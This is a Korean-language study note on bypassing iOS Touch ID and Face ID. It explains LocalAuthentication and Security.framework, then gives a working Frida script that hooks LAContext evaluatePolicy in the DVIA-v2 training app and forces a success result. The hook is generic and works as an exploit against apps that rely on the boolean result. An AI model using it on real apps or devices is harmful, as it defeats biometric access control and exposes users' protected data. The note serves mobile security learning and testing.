



# Touch/Face ID Bypass

Touch/Face ID Bypass

본 취약점은 탈옥 탐지가 되지 않거나 바이너리 패칭이 가능한 경우 보여줄 수 있는 위험성 예제 중 하나.


아이폰의 본인 인증 방식은

- 키패드 형식의 비밀번호 입력

- 지문을 통한 인증

- Face ID (얼굴인식)

총 3가지로 이루어져 있는데 우리가 사용하는 앱은 인증 시 사용하는 인증 관련 API에서

반환해 주는 boolean 타입의 반환 값(True/False)을 통해 사용자 본인 유무를 판단하는 원리이므로

Frida를 통해 해당 값을 변조하면 간단히 생채 인증을 우회할 수 있게 된다.


---

## 1. 인증 이론


Local Authentication(로컬 인증)

- 디바이스 내부에 저장된 자격 증명을 기준으로 사용자를 인증함
  - 자격 증명 : 암호, 지문(Touch ID), 얼굴(Face ID) 등

- 로컬 인증을 앱에 통합하기 위해 로컬 인증 프레임워크를 사용함
  - 로컬 인증 프레임워크는 개발자가 인증 다이얼로그를 사용자에게 확장하기 위한 API 세트를 제공

    
- 개발자는 Touch ID/Face ID 인증을 통합하는 두 가지 옵션을 사용 가능
  - LocalAuthentication.framework 
  - Security.framework


### 1.1 LocalAuthentication.framework

LocalAuthentication.framework

- 생체 인식(Touch ID/Face ID) 또는 설정한 암호를 사용하여 사용자를 인증

- 앱은 등록된 지문과 관련된 데이터에 접근할 수 없으며 인증 성공 여부만 확인 가능
  - 나머지 시스템과 분리된 하드웨어 기반 보안 프로세서인 Secure Enclave에 의해 작동하여 인증 성공 여부만 반환
  - 운영체제에서 Secure Enclave에게 인증하려는 이유를 알려주는 메시징을 제공해 주고 결과만 받아옴





### 1.2  Security.framework

- 앱이 관리하는 데이터를 보호하고 앱에 대한 접근 제어
- Security.framework는 LocalAutentication.framework의 기반이 됨
- 접근 제어는 시스템 수준에서 관리되며 쉽게 우회할 수 없으므로 생체 인증을 통해 앱에서 일부 비밀 데이터를 보호해야 하는 경우 안전한 옵션


---

## 2. 인증 우회 포인트

- 로컬 인증 프레임워크를 사용하면 Boolean만 반환되기 때문에 쉽게 우회 가능 
- 로컬 인증 프레임워크는 생체 인식(Touch ID/Face ID) 또는 설정한 암호를 사용하여 사용자를 인증 
- 애플에서 제공하는 LAContext 클래스의 evaluatePolicy 함수를 사용하여 인증 프롬프트를 표시하고 활용 가능
  - evaluatePolicy 함수는 인증 여부를 나타내는 Boolean 값을 반환

  - 

결국 Touch/Face ID를 통해 인증을 수행하는 LAContext 클래스의 evaluatePolicy 메서드는 

Needle, Frida, Cycript 등과 같은 도구나 동적 디버깅 도구 LLDB를 사용하여 조작하여 우회 가능하다


- 

인자를 3개 받고 reply 인자 값이 바로 변조가 필요한 부분 (success / error)

---

## 3. DVIA-v2 


목표 :지문 인식에 성공하면 Success, 실패하면 Error가 발생하는데 등록되지 않은 지문으로 Success 성공하도록 반환 값 변조

- 


 ```js
if(ObjC.available) {
var hook = ObjC.classes.LAContext["- evaluatePolicy:localizedReason:reply:"];

Interceptor.attach(hook.implementation, {
	onEnter: function(args) {
		send("Hooking Touch Id..")
		var block = new ObjC.Block(args[4]);  // 배열이기 때문에 [4]는 곧 5번째 인자인 reply
		const appCallback = block.implementation;
		block.implementation = function (error, value) {
			const result = appCallback(1, null); // 1이 success, 0이 error이므로 1을 반환!
			return result;
			};
		},
	});
} else {
	console.log("Objective-C Runtime is not available!");
}
```

Objective-C 메서드는 보이지 않는 인자 2개가 항상 앞에 붙ㅇ므

```
- (void)evaluatePolicy:(LAPolicy)policy
  localizedReason:(NSString *)reason
  reply:(void (^)(BOOL success, NSError *error))reply;
```
| index   | 내용                  |
| ------- | ------------------- |
| args[0] | self (LAContext 객체) |
| args[1] | _cmd (셀렉터)          |
| args[2] | policy              |
| args[3] | localizedReason     |
| args[4] | **reply 블록** ✅      |


참고 : https://github.com/ReversecLabs/needle/blob/master/needle/modules/hooking/frida/script_touch-id-bypass.py

- 

우회 성공 확인

